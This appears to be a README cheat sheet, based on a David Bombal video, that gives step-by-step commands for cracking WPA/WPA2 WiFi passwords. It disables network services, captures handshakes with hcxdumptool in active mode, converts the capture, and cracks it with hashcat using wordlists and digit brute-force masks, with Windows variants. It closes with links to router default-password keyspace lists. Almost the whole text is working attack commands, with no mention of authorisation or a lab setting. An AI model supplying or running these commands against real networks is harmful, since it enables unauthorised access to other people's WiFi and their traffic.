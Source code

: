 # WiFi-Cracking-with-HashCat
Cat: Security

### "WiFi WPA/WPA2 vs hashcat and hcxdumptool" by David Bombal
https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

## COMMANDS

### Stop Network Manager and WPA Supplicant Services
```
sudo systemctl stop NetworkManager && sudo systemctl stop wpa_supplicant
```

### Run hcxdumptool to capture WLAN information
```
sudo hcxdumptool -i [wifi interface] -o dumpfile.pcapng --active_beacon --enable_status=1
```

### Restart Network Manager and WPA Supplicant Services
```
sudo systemctl start wpa_supplicant && sudo systemctl start NetworkManager
```

### Convert PCAPNG file to hash file
```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

### Capture MAC addresses
```
sudo hcxdumptool --do_rcascan -i [wifi interface]
```

### Run Hashcat with a wordlist
```
hashcat -m 22000 hash.hc22000 wordlist.txt
```
### Run Hashcat with Brute Force
?d digits, ?l lower, ?u upper, ?s special, ?a all
```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```
### Linux potfile
```
~/.local/share/hashcat
```

## Windows:
```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```
```
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```


Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table

https://github.com/soxrok2212/PSKracker/blob/master/keyspace.md

https://github.com/berzerk0/Probable-Wordlists
